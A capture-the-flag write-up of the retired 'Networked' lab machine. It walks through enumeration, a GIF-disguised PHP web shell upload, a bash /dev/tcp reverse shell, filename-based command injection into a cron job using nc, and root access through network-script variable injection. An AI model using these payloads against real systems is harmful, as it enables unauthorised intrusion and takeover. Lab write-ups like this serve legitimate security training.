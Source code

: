 # Networked

This is the write-up for the box Networked that got retired at the 16th November 2019.
My IP address was 10.10.14.11 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.146    networked.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/networked.nmap 10.10.10.146
```

```
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https
```

Port 443 came back as _closed_ but the fact that it sent this information back, means that there is a firewall that blocked the connection.

## Checking HTTP (Port 80)

On the web page are three sentences:
```
Hello mate, we're building the new FaceMash!
Help by funding us and be the new Tyler&Cameron!
Join us at the pool party this Sat to get a glimpse
```

In the HTML source code is one comment:
```
<!-- upload and gallery not yet linked -->
```

By manually browsing to _index.html_, it responds with the status code _404 Not Found_, while _index.php_ is found and that is how we know a PHP server is running in the background.
Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.146 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It found the following directories and files:
- /uploads
  - Blank page
- /backup
  - Index with _backup.tar_ file
- /photos.php
  - Some images with the following names in the _/uploads_ directory:
    - _uploads/127_0_0_1.png_
    - _uploads/127_0_0_2.png_
    - _uploads/127_0_0_3.png_
    - _uploads/127_0_0_4.png_
- /upload.php
  - Uploading files button
- /lib.php
  - Blank page

Extracting files from _backup.tar_:
```
tar -xvf backup.tar
```

In the tar archive is the source code of all PHP files from the website.
The file _upload.php_ has interesting code as it allows to upload files:
- Function _check_file_type_ checks for file types
  - This function is declared in _lib.php_ and looks for **MIME types** starting with _"image/"_
- Checks that the file size has to be below 60000 bytes
- Checks that the filename ends with the extension of image files

Lets create a PHP shell file that begins with the **Magic bytes** of GIF images and has _.gif_ as the file extension:
```
GIF8;
<?php system($_REQUEST['cmd']); ?>
```

After uploading the file _shell.php.gif_ on _/upload_, the page says that it was uploaded successfully:
```
file uploaded, refresh gallery
```

The web shell can be found in _/photos.php_ and by testing the `whoami` command, it outputs the username _apache_ and proofs command execution:
```
http://10.10.10.146/uploads/10_10_14_11.php.gif?cmd=whoami
```

Executing a reverse shell command:
```
GET /uploads/10_10_14_11.php.gif?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'
```

After URL-encoding and sending it, the listener on my IP and port 9001 starts a reverse shell session as _apache_.

## Privilege Escalation

In the home directory _/home/guly_ is a **Crontab file** that runs _check_attack.php_ every 3 minutes:
```
*/3 * * * * php /home/guly/check_attack.php
```

The PHP file _check_attack.php_ uses the `exec` function to remove files from _/var/www/html/uploads_:
```
(...)
$path = '/var/www/html/uploads/';
(...)
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
(...)
```

The variable _value_ is for the file names and as we have control over that, it is possible to execute commands by adding another command after the `rm` with a semicolon, so it looks like this:
```
exec("nohup /bin/rm -f /var/www/html/uploads/;reverse shell command
```

Creating file in _/var/www/html/uploads_:
```
touch -- ';nc -c bash 10.10.14.11 9002;.php'
```

After three minutes, the cronjob runs the PHP file, the `exec` function runs the `nc` command and the listener on my IP and port 9002 starts a reverse shell session as _guly_.

### Privilege Escalation to root

The user _guly_ has sudo permissions to run a script called _changename.sh_ as root:
```
sudo -l
```
```
(...)
User guly may run the following commands on networked:
   (root) NOPASSWD: /usr/local/sbin/changename.sh
```

After executing it, it asks for variables and writes the input into _/etc/sysconfig/network-scripts/ifcfg-guly_ and then runs `/sbin/ifup guly0`:
```
sudo /usr/local/sbin/changename.sh
```
```
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=Test1
PROXY_METHOD=Test2
BROWSER_ONLY=Test3
BOOTPROTO=TCP
```

As described in [this Nmap full disclosure mailing list](https://seclists.org/fulldisclosure/2019/Apr/24), it is possible to execute code with network scripts, by passing a command into one of the variables with a _space character_:
```
interface NAME:
Test1
interface PROXY_METHOD:
Test2
interface BROWSER_ONLY:
Test3 bash
interface BOOTPROTO:
TCP
```

The `bash` command in the _BROWSER_ONLY_ variable gets executed and immediately starts a shell as root!

